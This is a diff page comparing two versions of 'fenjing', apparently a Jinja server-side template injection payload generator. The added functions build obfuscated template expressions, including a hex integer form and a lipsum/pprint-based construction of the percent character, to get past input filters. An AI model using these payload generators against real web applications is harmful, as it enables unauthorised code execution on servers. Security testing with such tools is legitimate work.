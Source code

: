 ### Comparing `fenjing-0.3.4/fenjing/full_payload_gen.py` & `fenjing-0.3.5/fenjing/full_payload_gen.py`

 * *Files identical despite different names*

### Comparing `fenjing-0.3.4/fenjing/int_vars.py` & `fenjing-0.3.5/fenjing/int_vars.py`

 * *Files identical despite different names*

### Comparing `fenjing-0.3.4/fenjing/payload_gen.py` & `fenjing-0.3.5/fenjing/payload_gen.py`

 * *Files 2% similar despite different names*

```diff
@@ -247,14 +247,24 @@
         return [
             (UNSATISFIED, )
         ]
     return [
         (LITERAL, str(value))
     ]
 
+@req_gen
+def gen_positive_integer_hex(context: dict, value: int):
+    if value < 0:
+        return [
+            (UNSATISFIED, )
+        ]
+    return [
+        (LITERAL, hex(value))
+    ]
+
 
 @req_gen
 def gen_positive_integer_sum(context: dict, value: int):
     if value < 0:
         return [
             (UNSATISFIED, )
         ]
@@ -459,14 +469,29 @@
         (LITERAL, ")|list|first|last)*"),
         (INTEGER, 2),
         (LITERAL, "][dict(chr=x)|join]("),
         (INTEGER, 37),
         (LITERAL, "))"),
     ]
 
+@req_gen
+def gen_string_percent_urlencodelong(context):
+    return [
+        (LITERAL, "((lipsum,)|map(((lipsum|string|list|batch(3)|first|last)" + 
+            "~(lipsum|string|list|batch(15)|first|last)" + 
+            "~(lipsum|string|list|batch(20)|first|last)" + 
+            "~(x|pprint|list|batch(4)|first|last)" + 
+            "~(x|pprint|list|batch(2)|first|last)" + 
+            "~(lipsum|string|list|batch(5)|first|last)" + 
+            "~(lipsum|string|list|batch(8)|first|last)" + 
+            "~(x|pprint|list|batch(3)|first|last)" + 
+            "~(x|pprint|list|batch(4)|first|last)))|list|first|first)")
+    ]
+
+
```